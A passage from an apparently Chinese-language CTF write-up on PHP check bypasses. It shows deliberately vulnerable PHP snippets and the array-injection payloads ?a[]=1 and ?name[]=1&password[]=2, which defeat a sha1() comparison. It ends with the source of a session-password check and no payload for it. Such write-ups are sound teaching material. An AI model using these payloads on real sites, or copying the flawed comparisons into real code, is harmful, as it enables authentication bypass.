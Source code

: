 **思路分析**

假设传入的是非字符串，函数会出现报错，但是函数返回0，从而符合判断结果，最终的payload如下：
```
?a[]=1
```

## sha()函数比较绕过

**部分源码**
```php
<?php
$flag = "flag";

if (isset($_GET['name']) and isset($_GET['password'])) 
{
    if ($_GET['name'] == $_GET['password'])
        echo '<p>Your password can not be your name!</p>';
    else if (sha1($_GET['name']) === sha1($_GET['password']))
      die('Flag: '.$flag);
    else
        echo '<p>Invalid password.</p>';
}
else
    echo '<p>Login first!</p>';
?>
```

**思路分析**

- 关键代码：
```
$_GET['name'] != $_GET['password']
sha1($_GET['name']) === sha1($_GET['password'])
```

- 这里可用数组来进行绕过，因为sha1()函数不能处理数组类型，将报错并返回NULL，条件成立输出flag，payload如下：
``?name[]=1&password[]=2``


## SESSION验证绕过
**部分源码**
```php
<?php

$flag = "flag";

session_start(); 
if (isset ($_GET['password'])) {
    if ($_GET['password'] == $_SESSION['password'])
        die ('Flag: '.$flag);
    else
        print '<p>Wrong guess.</p>';
}
mt_srand((microtime() ^ rand(1, 10000)) % rand(1, 10000) + rand(1, 10000));
?>
```
